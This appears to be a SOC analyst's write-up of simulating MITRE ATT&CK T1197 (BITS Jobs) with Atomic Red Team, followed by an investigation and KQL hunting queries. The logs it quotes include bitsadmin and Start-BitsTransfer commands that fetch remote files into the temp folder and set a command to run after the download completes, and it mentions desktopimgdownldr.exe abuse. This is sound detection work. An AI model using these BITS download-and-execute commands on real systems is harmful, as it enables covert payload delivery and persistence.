


# Simulation of T1197 - BITS Jobs

```
Invoke-AtomicTest T1197 -ShowDetailsBrief
```


```
Invoke-AtomicTest T1197 -GetPrereqs
```


## T1197-1 Bitsadmin Download (cmd)
```
Invoke-AtomicTest T1197 -TestNumbers 1 -ShowDetailsBrief
```


```
Invoke-AtomicTest T1197 -TestNumbers 1 
```


## T1197-2 Bitsadmin Download (PowerShell)
```
Invoke-AtomicTest T1197 -TestNumbers 2 -ShowDetailsBrief

Invoke-AtomicTest T1197 -TestNumbers 2
```


## T1197-3 Persist, Download & Execute
```
Invoke-AtomicTest T1197 -TestNumbers 3 -ShowDetailsBrief
Invoke-AtomicTest T1197 -TestNumbers 3
```


## T1197-4 Bit download using desktopimgdownlldr.exe (cmd)
```
Invoke-AtomicTest T1197 -TestNumbers 4 -ShowDetailsBrief

Invoke-AtomicTest T1197 -TestNumbers 4
```




# Write Up

## Summary
BITS (Background Intelligent Transfer Service) is a legitimate Windows background downloader used to simplify and coordinate downloading and uploading large files to and from HTTP servers and SMB shares.

The interface to create and manage BITS jobs is accessible through `PowerShell` and the `BITSAdmin` tool.

- CMD: bitsadmin.exe (legacy CLI). 
- PowerShell BITS cmdlets: `Start-BitsTransfer`. 
- Some Windows binaries that leverage BITS functionality (e.g., desktopimgdownldr.exe used to download lockscreen/desktop images) — attackers can abuse these.

Thus, BITS is a useful tool for the adversaries to maintain persistence, start processes, perform various background tasks and execute malicious payloads.

**MITRE ATT&CK Tactic**
- [Persistence](https://attack.mitre.org/tactics/TA0003/)

**MITRE ATT&CK Technique**
- ID: [T1197](https://attack.mitre.org/techniques/T1197/)
- Name: BITS Jobs

## Report

### FINDINGS

- Time: Sep 15, 2025 7:50:51 PM (Sep 15, 2025 5:50:51 PM [UTC])
- InitiatingProcessAccountName: Sal
- InitiatingProcessFileName: cmd.exe, powershell.exe
- DeviceName: mydifr-win11-vm
- InitiatingProcessCommandLine: 
    - "cmd.exe" /c bitsadmin.exe /transfer /Download /priority Foreground https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1197/T1197.md %temp%\bitsadmin1_flag.ps1
    - "powershell.exe" & {Start-BitsTransfer -Priority foreground -Source https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1197/T1197.md -Destination $env:TEMP\bitsadmin2_flag.ps1}
    - "cmd.exe" /c bitsadmin.exe /create AtomicBITS & bitsadmin.exe /addfile AtomicBITS https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1197/T1197.md %temp%\bitsadmin3_flag.ps1 & bitsadmin.exe /setnotifycmdline AtomicBITS C:\Windows\system32\notepad.exe NULL & bitsadmin.exe /resume AtomicBITS & ping -n 5 127.0.0.1 >nul 2>&1 & bitsadmin.exe /complete AtomicBITS
- FileName: bitsadmin1_flag.ps1, bitsadmin2_flag.ps1
- FolderPath: 
	- C:\Users\Sal\AppData\Local\Temp\bitsadmin1_flag.ps1
	- C:\Users\Sal\AppData\Local\Temp\bitsadmin2_flag.ps1
- SHA256: 985cbf7dc69dadd8c832895ea05d0c096caa5342e9bb2503f040d8ac1be11d87 [VirusTotal](https://www.virustotal.com/gui/file/985cbf7dc69dadd8c832895ea05d0c096caa5342e9bb2503f040d8ac1be11d87) 
- Signer: Unknown
- InitiatingProcessCommandLine: svchost.exe -k netsvcs -p -s BITS

### ASSUMPTIONS

- An adversary created suspicious BITS jobs (via bitsadmin/PowerShell) to download an executable from an external domain in an attempt to execute malicious payload indicating a delivery/persistence attempt (False)
- A SOC analyst is hunting for BITS abuse in the environment (True)


### INVESTIGATION 

On Sep 15, 2025 5:50:51 PM [UTC], the "Suspicious bitsadmin activity" alert triggered on host mydifr-win11-vm. The alret showed various BITS commands executed from CMD and PowerShell. The execution of the commands downloaded a remote file (hosted on github) eventually dropping potentially malicious PowerShell scripts in user's \Temp\ directory. The analysis of the files revealed that they contained the Atomic Red Team tests for technique [T1197 - BITS Jobs](https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1197/T1197.md). 

Moreover, Bits download using desktopimgdownldr.exe using cmd was also observed in the logs indicating likely abuse of the BITS download flow to fetch arbitrary/malicious files.

Further investigation revealed that the host machine belongs to a SOC analyst in our team who was hunting for BITS Job abuse in our environment.


- `WHO (Account)`: The activity was executed by user Sal who is part of the SOC team.
- `WHERE (Host)`: The activity took place on one host called mydifr-win11-vm.
- `WHAT`: Multiple bitsadmin commands were executed to download malicious content from an externally hosted domain on victim's machine.
- `WHEN`: Based on the process create events, the user executed bitsadmin commands on 2025-09-15 17:50:51 UTC and downloaded potentially malicious PowerShell scripts (bitsadmin1_flag.ps1, bitsadmin2_flag.ps1) on 2025-09-15 17:52:52 UTC and 2025-09-15 18:01:22 UTC respectively. We did not observe the further execution of these scripts on the host machine.
- `WHY`: The intent behind accessing the malicious domain and downloading the files was to hunt for MITRE ATT&K technique T1197 - BITS Jobs to detect the abuse of this technique in our environment.
- `HOW`: The user knowingly executed the bitsadmin tests by Atomic Red Team to hunt for BITs abuse, check how common it is in our environment, test our detection capabilities and suggest any improvements in case of any gaps observed.

#### ACTIONS

- For investigation Device timeline was checked around the time when the acitivity occured. For this purpose checked the following log sources: 
    - **DeviceProcessEvents** 
    Three commands interesting from an attacker's point of view were executed.
        - `"cmd.exe" /c bitsadmin.exe /transfer /Download /priority Foreground https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1197/T1197.md %temp%\bitsadmin1_flag.ps1`. It’s a command-line invocation of `bitsadmin.exe` requesting a download of a remote file with immediate/interactive transfer instead of background throttled.
        - `"powershell.exe" & {Start-BitsTransfer -Priority foreground -Source https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1197/T1197.md -Destination $env:TEMP\bitsadmin2_flag.ps1}` does the same as above but uses PowerShell BITS cmdlet `Start-BitsTransfer` to create and start a BITS job.
        - `"cmd.exe" /c bitsadmin.exe /create AtomicBITS & bitsadmin.exe /addfile AtomicBITS https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1197/T1197.md %temp%\bitsadmin3_flag.ps1 & bitsadmin.exe /setnotifycmdline AtomicBITS C:\Windows\system32\notepad.exe NULL & bitsadmin.exe /resume AtomicBITS & ping -n 5 127.0.0.1 >nul 2>&1 & bitsadmin.exe /complete AtomicBITS`. The sequence creates a named BITS job (/create), adds a file to download from a remote URL to a local path (/addfile), configures a command to run when the job finishes (/setnotifycmdline), starts the job (/resume) so the BITS service performs the download in the background (usually via svchost), waits briefly (ping as a delay), and then marks the job complete (/complete), which triggers the configured post-download command
    - **DeviceFileEvents**
        -  Two PowerShell scripts (bitsadmin1_flag.ps1, bitsadmin2_flag.ps1) were created on the host machine but no script execution was observed.
        - The files were created in user's /TEMP/ folder (unusual folder to download content), indicating malicious file creation.
        - Checked file hashes and both scripts have same SHA256 hash which is clean as according to VirusTotal because its a benign test file.
    - **DeviceNetworkEvents**
    When bitsadmin.exe is spawned, it will create the transfer job, assign it to svchost.exe and exit the process. svchost.exe is a process that managed network services. Noticed the below process being run: `c:\windows\system32\svchost.exe -k netsvcs -p -s bits` but no malicious URLs were observed other than a connection to legitimate Microsoft domains that commonly use BITS in the background to update apps or sync content.
- Checked for clean-up performed two hours after running the BITS commands but no logs were found in Defender so there is a visibility gap there.
- Hunted for `desktopimgdownldr.exe` which is a legitimate Windows binary used by the Personalization/lockscreen feature to fetch images (desktop or lock-screen backgrounds) from a URL or Microsoft service.  The device process logs showed an unusual `desktopimgdownldr.exe /lockscreenurl:` refrencing a  URL to download  GitHub raw .md file (not an image), which indicates it’s a test or abuse rather than normal behavior. 
- In case of proxy logs are present check if anyone in the environment made connections towards the  malicious URL. This way we can get an idea of how many machines in our environment made a connection towards that domain.

### RECOMMENDATIONS
- Check for evidence of execution of bitsadmin.exe/Start-BitsTransfer on host mydifr-win11-vm, if the application had been executed then 
    - Isolate the host
    - Block outbound connections to the malicious domains or IPs
- Determine whether the activity is an admin or announced activty or a malicious attempt. 
- Based on the investigation close and classify the incident. In this case, the assumption was that a SOC analyst ran BITS simulation to hunt for its abuse, so the incident will be closed as BenignPositive because it was a suspicious activity but expected. Therefore, no business impact was observed.


### KQLs and Screenshots

#### Detect BITs activity
```
DeviceProcessEvents
| where TimeGenerated >= ago(1d)
| where InitiatingProcessFileName has_any ("cmd.exe", "powershell.exe", "pwsh.exe")
| where (InitiatingProcessCommandLine contains "bitsadmin" and InitiatingProcessCommandLine has_any ("/transfer", "/download", "/create", "/addfile", "/setnotifycmdline", "/resume", "/complete"))
    or InitiatingProcessCommandLine has_any ("Start-BitsTransfer")
| sort by TimeGenerated asc 
| project-reorder TimeGenerated, InitiatingProcessCommandLine, DeviceName, InitiatingProcessFileName, FileName, InitiatingProcessFolderPath
```


#### Hunt for bits file creation
```
DeviceFileEvents
| where TimeGenerated >= ago(5h)
| where DeviceName contains "mydifr-win11-vm"
| find "bits"
| project-reorder TimeGenerated, InitiatingProcessFileName, FileName, PreviousFileName, ActionType,InitiatingProcessCommandLine, FolderPath, SHA256
```


#### Hunt for bits network activity
The telemetry for BITS network activity was logged by Defender just once for when T1197-1 Bitsadmin Download (cmd) was simulated a day before (Sep 14, 20205) simulation the whole technique (Sep 15, 20205) . So the assumption is that Defender samples or deduplicate network telemetry, hence not logging the same results again. 

```
DeviceNetworkEvents 
    // | where TimeGenerated between (datetime(2025-09-15T18:06:30) .. datetime(2025-09-15T18:07:00))
    | where TimeGenerated >=  ago(3d)
    | where InitiatingProcessCommandLine contains @"svchost.exe -k netsvcs -p -s BITS"
    | where isnotempty(RemoteUrl)
    | where not(RemoteUrl has_any ("oneclient.sfx.ms", "g.live.com", "msedge.b.tlu.dl.delivery.mp.microsoft.com", "fs.microsoft.com"))
    | project TimeGenerated, ActionType, RemoteUrl, DeviceName
```


#### Hunt for clean-up commands 
```
DeviceProcessEvents
| where TimeGenerated between (datetime(2025-09-15T17:00:00.0000Z) .. datetime(2025-09-15T19:00:00.0000Z))
| where DeviceName contains "mydifr-win11-vm"
| where  InitiatingProcessCommandLine contains ("Remove-Item") or InitiatingProcessCommandLine has_all ("del", ">nul 2>&1")
```


#### Hunt for desktopimgdownldr.exe abuse
```
DeviceProcessEvents
| where TimeGenerated between (datetime(2025-09-15T18:06:30) .. datetime(2025-09-15T18:07:00))
| where InitiatingProcessCommandLine contains "desktopimgdownldr.exe"
| sort by TimeGenerated asc
| project-reorder TimeGenerated, InitiatingProcessCommandLine, DeviceName, InitiatingProcessFileName, FileName, InitiatingProcessFolderPath
```


#### Hunt for desktopimgdownldr.exe abuse in correlation with BITS network activity
```
DeviceProcessEvents
| where TimeGenerated between (datetime(2025-09-15T18:06:30) .. datetime(2025-09-15T18:07:00))
| where InitiatingProcessCommandLine contains "desktopimgdownldr.exe"
| join (
    DeviceNetworkEvents 
    | where TimeGenerated between (datetime(2025-09-15T18:06:30) .. datetime(2025-09-15T18:07:00))
    | where InitiatingProcessCommandLine contains @"svchost.exe -k netsvcs -p -s BITS"
    | where isnotempty(RemoteUrl)
    // Exclude Microsoft domains
    | where not(RemoteUrl has_any ("oneclient.sfx.ms", "g.live.com", "msedge.b.tlu.dl.delivery.mp.microsoft.com", "fs.microsoft.com"))
    | project RemoteIP, RemoteUrl, DeviceName, NetworkTimeGenerated = TimeGenerated
    )
    on DeviceName
| extend  TimeDifference = datetime_diff('minute',TimeGenerated,NetworkTimeGenerated)
| where TimeDifference between (0 .. 5 )
| sort by TimeGenerated asc
| project-reorder TimeGenerated, TimeDifference, NetworkTimeGenerated, InitiatingProcessCommandLine, RemoteIP, RemoteUrl, DeviceName, InitiatingProcessFileName, FileName, InitiatingProcessFolderPath
```

